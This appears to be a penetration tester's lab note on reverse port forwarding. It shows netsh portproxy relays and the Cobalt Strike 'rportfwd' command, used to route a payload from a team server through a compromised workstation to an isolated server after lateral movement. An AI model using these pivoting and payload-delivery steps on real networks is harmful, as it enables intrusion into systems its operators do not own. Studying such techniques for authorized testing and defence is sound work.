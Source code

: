 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Reverse Port Forwards]]  
___

## Description:  


### Powershell

The native `netsh` (short for Network Shell) utility allows you to view and configure various networking components on a machine, including the firewall.  There's a subset of commands called `interface portproxy` which can proxy both IPv4 and IPv6 traffic between networks.

The syntax to add a **v4tov4** proxy is:

```
netsh interface portproxy add v4tov4 listenaddress= listenport= connectaddress= connectport= protocol=tcp
```

-   **listenaddress** is the IP address to listen on (probably always 0.0.0.0).
-   **listenport** is the port to listen on.
-   **connectaddress** is the destination IP address.
-   **connectport** is the destination port.
-   **protocol** to use (always TCP).

on the relay,  create a portproxy that will listen on 4444 and forward the traffic to the target, also on 4444.

```
C:\>netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=4444 connectaddress=10.10.14.55 connectport=4444 protocol=tcp
```
you can check it's there with `netsh interface portproxy show`.


Now from your host, instead of trying to connect to the target, connect to the portproxy relay
```
PS C:\> Test-NetConnection -ComputerName 10.10.17.71 -Port 4444

ComputerName     : 10.10.17.71
RemoteAddress    : 10.10.17.71
RemotePort       : 4444
InterfaceAlias   : Ethernet
SourceAddress    : 10.10.15.75
TcpTestSucceeded : True
```

To remove the portproxy:
```
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444
```

### CobaltStrike

In many corporate environments, workstations are able to browse the Internet on ports 80 and 443, but servers have no direct outbound access (because why do they need it?).

Let's imagine that we already have foothold access to a workstation and have a means of moving laterally to a server - we need to deliver a payload to it but it doesn't have Internet access to pull it from our Team Server. We can use the workstation foothold as a relay point between our webserver and the target.

Host a scripted web delivery payload and then attemp to download it from the server

```
PS C:\> hostname
dc-2

PS C:\> iwr -Uri http://10.10.5.120/a
iwr : Unable to connect to the remote server
```

The syntax for the `rportfwd` command is `rportfwd [bind port] [forward host] [forward port]`. On the workstation (forward host and port should point to your payload on the team server):

```
beacon> rportfwd 8080 10.10.5.120 80
[+] started reverse port forward on 8080 to 10.10.5.120:80
```

This will bind port **8080** on the foothold machine, which we can see with **netstat**.

```
beacon> run netstat -anp tcp

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING
```

Now any traffic hitting this port will be redirected to **10.10.5.120** on port **80**. On the server, instead of trying to hit **10.10.5.120:80**, we use **10.10.17.231:8080** (where 10.10.17.231 is the IP address of WKSTN-1).




___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (09:49 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

